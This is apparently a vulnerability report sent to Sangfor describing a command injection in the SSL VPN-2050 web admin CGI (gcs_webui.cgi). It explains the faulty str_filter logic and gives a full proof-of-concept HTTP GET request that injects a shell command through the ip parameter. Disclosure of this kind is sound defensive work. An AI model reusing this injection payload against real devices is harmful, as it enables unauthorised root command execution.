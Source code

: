 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.

Recently, I found that the Sangfor SSL VPN-2050 has a command injection vulnerability. The attacker can obtain the root shell and execute arbitrary commands. The tested device firmware version is M7.6.3. The vulnerability details are as follows:

This vulnerability is due to a logic vulnerability in the filter function, resulting in command execution of the ip and port parameters.

The vulnerability exists in gcs_webui.cgi, which corresponds to the IP address and port options under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code:
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622195475389.png)

Guess the developer wants to filter the ip and port parameters by the str_filter function. In the first if judgment, the str_filter function needs to return 0 to continue the following processing of the port parameter. 
The implementation of the str_filter function is as follows:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622267799970.png)

In this while loop, v2 does not play any role, the range of filtering characters is also problematic. Finally, the parameters are spliced, and the call is executed by the call_DoShellProxy function to call popen.

The payload of the vulnerability recurrence is as follows:
Command injection through the ip parameter on port 1000:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=119a080699cc70839b6c8b434bcca478&enabled=1&ip=10.10.10.1';ping%2010.92.2.110;echo'&port=1111111%s%x&auth=2&name=aaaaaaa%s&passwd=1230000000000000000000000000000000000000 HTTP/1.1
Host: 10.92.2.17:1000
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: http://10.92.2.17:1000/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; sinfor_session_id=W38F984ADB3BE348FEF4EE72B628B3C6; x-anti-csrf-gcs=A160FB2300484911
Connection: close

Under the terminal you can see that the command is executed:
![5.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561626103122469.png)
You can also see that the command is executed by capturing the packet:
![4.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561624621269779.png)
Can fix the vulnerability by filtering the ip and port parameters.

Best wishes
